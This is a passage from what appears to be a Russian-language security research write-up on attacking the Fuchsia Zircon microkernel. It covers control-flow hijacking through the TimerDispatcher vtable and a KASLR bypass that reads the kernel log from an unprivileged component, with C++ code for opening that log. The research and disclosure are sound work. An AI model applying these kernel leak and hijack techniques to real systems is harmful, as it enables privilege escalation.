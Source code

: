 Здесь Zircon вызывает публичный метод `get_type()` для класса `TimerDispatcher`. Адрес этой функции определяется с помощью таблицы виртуальных методов (или [C++ vtable](https://en.wikipedia.org/wiki/Virtual_method_table)). Указатель на такую таблицу находится в самом начале объекта `TimerDispatcher`. Эту функциональность можно использовать для перехвата потока управления (control-flow hijacking), и тогда не нужно искать подходящие ядерные объекты, содержащие указатели на функции (как это требуется в аналогичных атаках для ядра Linux).

# Обход защиты KASLR для Zircon

Для перехвата потока управления нужно знать адреса ядерных функций, которые зависят от KASLR — защитного механизма, выполняющего рандомизацию расположения адресного пространства ядра (kernel address space layout randomization). С его помощью код ядра располагается по случайному отступу от фиксированного адреса. В исходном коде Zircon механизм KASLR упоминается множество раз. Вот пример из файла `zircon/kernel/params.gni`:

```python
  # Virtual address where the kernel is mapped statically.  This is the
  # base of addresses that appear in the kernel symbol table.  At runtime
  # KASLR relocation processing adjusts addresses in memory from this base
  # to the actual runtime virtual address.
  if (current_cpu == "arm64") {
    kernel_base = "0xffffffff00000000"
  } else if (current_cpu == "x64") {
    kernel_base = "0xffffffff80100000"  # Has KERNEL_LOAD_OFFSET baked into it.
  }
```

Чтобы обойти защиту KASLR, я решил применить один из своих трюков для ядра Linux. Мой [прототип эксплойта для CVE-2021-26708](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html) использовал утечку информации из журнала ядра Linux, чтобы определить секретный отступ KASLR. В операционной системе Fuchsia ядерный журнал также содержит ценную информацию для атакующего. Поэтому я решил попытаться прочитать журнал микроядра Zircon из моего непривилегированного компонента в пользовательском пространстве. Для этого я добавил строку `use: [ { protocol: "fuchsia.boot.ReadOnlyLog" } ]` в манифест компонента и попробовал открыть ядерный журнал:

```c++
  zx::channel local, remote;
  zx_status_t status = zx::channel::create(0, &local, &remote);
  if (status != ZX_OK) {
    fprintf(stderr, "Failed to create channel: %d\n", status);
    return -1;
  }

  const char kReadOnlyLogPath[] = "/svc/" fuchsia_boot_ReadOnlyLog_Name;
  status = fdio_service_connect(kReadOnlyLogPath, remote.release());
  if (status != ZX_OK) {
    fprintf(stderr, "Failed to connect to ReadOnlyLog: %d\n", status);
    return -1;
  }

  zx_handle_t h;
  status = fuchsia_boot_ReadOnlyLogGet(local.get(), &h);
  if (status != ZX_OK) {
    fprintf(stderr, "ReadOnlyLogGet failed: %d\n", status);
    return -1;
  }
```


[0]: 0xffdffe64ffdffd24
[1]: 0xffdcb5a4ffe00454
[2]: 0xffdffea4ffdc7824
[3]: 0xffd604c4ffd519f4